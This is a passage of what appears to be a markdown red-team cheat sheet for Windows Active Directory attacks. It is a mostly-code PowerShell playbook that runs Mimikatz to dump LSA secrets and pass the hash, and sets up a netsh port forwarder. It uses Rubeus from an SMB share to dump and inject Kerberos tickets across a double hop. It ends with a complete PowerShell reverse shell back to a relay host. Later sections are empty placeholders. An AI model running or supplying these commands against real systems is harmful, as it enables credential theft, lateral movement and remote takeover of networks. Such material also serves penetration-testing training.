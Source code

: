 ```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
# DUMPING
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
### Forwarder
# RULE
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.10.10.10 connectport=8080
# CHECK
netsh interface portproxy show all
# RESET
netsh interface portproxy reset
### KERBEROS DOUBLE HOPS - Remote ticket dumping - SMB Lateral Hosting (skill)
- You are logged in to ServerA.
- From ServerA, you start a remote PowerShell session to connect to ServerB.
- A command you run on ServerB via your PowerShell Remoting session attempts to access a resource on ServerC.<br>
:no_entry: Access to the resource on ServerC is denied, because the credentials you used to create the PowerShell Remoting session are not passed from ServerB to ServerC.<br>
:no_entry: Cannot encapsulate multiple psremoting session.<br>
:no_entry: Delegation not available.<br>
# LOGIN WITH COMPROMISED ACCOUNT
Invoke-Mimikatz -Command '"sekurlsa::pth /user:bob /domain:DOMAIN.LOCAL /ntlm:00000000000000000000000000000000 /run:powershell.exe"'
# PSREMOTE TO SERVER A
$servera = New-PSSession -ComputerName SERVERA.DOMAIN.LOCAL
Enter-PSSession -Session $servera
# PASS CREDENTIAL TO SERVER B
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\alice', $SecPassword)
$serverb = New-PSSession -ComputerName SERVERB.DOMAIN.LOCAL -Credential $Cred
# LIST TICKET IN SERVER C:
Invoke-Command -ScriptBlock { & '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe' klist} -Session $serverb | Select-String -Pattern Username
# DUMP TICKET IN SERVER C:
Invoke-Command -ScriptBlock { & '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe' dump /user:targetadmin} -Session $serverb
# INJECT TICKET IN SERVER B:
Invoke-Command -ScriptBlock {& '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe'  ptt /ticket:B64 } -Session $serverb
# CHECK INJECTION:
Invoke-Command -ScriptBlock { ls \\serverc\c$ } -Session $serverb
# RCE ON SERVER C:
Invoke-Command -ScriptBlock {Invoke-Command -ScriptBlock {hostname} -ComputerName SERVERC.DOMAIN.LOCAL} -Session $serverb
# FINAL REVERSE SHELL IN SERVER A FROM SERVER C
Invoke-Command -ScriptBlock {Invoke-Command -ScriptBlock {$client = New-Object System.Net.Sockets.TCPClient("servera",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -ComputerName SERVERC.DOMAIN.LOCAL} -Session $serverb 
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Remote Administration
```powershell
ADD COMMANDS!
```
--------------------------------------------------------------------------------------------------------------------------------------------
### Domain Admin Privileges
```powershell
```

[logo]: https://raw.githubusercontent.com/PowerShell/PowerShell/master/assets/ps_black_64.svg?sanitize=true